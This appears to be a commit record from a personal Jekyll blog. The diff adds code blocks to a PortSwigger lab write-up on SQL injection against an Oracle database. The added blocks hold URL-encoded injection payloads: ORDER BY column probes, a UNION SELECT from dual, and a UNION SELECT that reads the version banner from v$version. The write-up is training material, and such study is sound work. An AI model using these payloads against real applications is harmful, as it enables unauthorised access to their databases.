

Before and after one commit to CyberKRY/CyberKRY.github.io, a Jekyll site: the page built from _posts/2026-06-29-portswigger-Lab: SQL injection attack, querying the database type and version on Oracle.md, in a window 1280 px wide and 1400 px high, scrolled down 1502 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2026-06-29-portswigger-Lab: SQL injection attack, querying the database type and version on Oracle.md

````diff
--- a/_posts/2026-06-29-portswigger-Lab: SQL injection attack, querying the database type and version on Oracle.md
+++ b/_posts/2026-06-29-portswigger-Lab: SQL injection attack, querying the database type and version on Oracle.md
@@ -45,6 +45,12 @@ In this lab, we determine that the query contains two columns.
   <img src="/assets/css/img/SQL/sql1.png" alt="SQLi" />
 </p>
 
+```python
+Gifts'+ORDER+BY+1+--
+Gifts'+ORDER+BY+2+--
+Gifts'+ORDER+BY+3+--
+```
+
 ## Step 3 – Check Compatible Data Types
 
 The next task is to determine which columns can contain string values.
@@ -59,6 +65,10 @@ Since the lab uses Oracle Database, every SELECT statement must include a FROM c
   <img src="/assets/css/img/SQL/sql3.png" alt="SQLi" />
 </p>
 
+```python
+Gifts'+UNION+SELECT+'Hack','live'+FROM+dual+--
+```
+
 ## Step 4 – Retrieve Database Version
 
 Once the query structure has been defined, you can query the v$version view, which contains information about the Oracle Database version.
@@ -72,3 +82,7 @@ After executing the query, the application displays the database version string,
 <p align="center">
   <img src="/assets/css/img/SQL/sql4.png" alt="SQLi" />
 </p>
+
+```python
+Gifts'+UNION+SELECT+banner,+null+FROM+v$version+--
+```
````
